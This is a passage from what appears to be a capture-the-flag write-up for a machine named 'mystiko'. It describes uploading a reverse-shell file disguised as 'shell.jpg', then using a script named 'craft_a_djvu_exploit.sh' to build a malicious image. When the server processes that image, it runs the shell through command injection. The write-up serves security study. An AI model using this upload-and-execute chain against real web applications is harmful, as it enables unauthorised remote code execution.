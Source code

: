 ![](/assets/images/mystiko/mystiko-17.png)

We can upload the `shell.jpg` file to the server, to store it in the uploads directory.

Then to call our reverse shell payload, we simply generate a new malicious image using:

```bash
bash craft_a_djvu_exploit.sh "cd s*/uploads && bash shell.jpg"
```
and upload the generated `delicate.jpg` payload to the web application...

![](/assets/images/mystiko/mystiko-18.png)

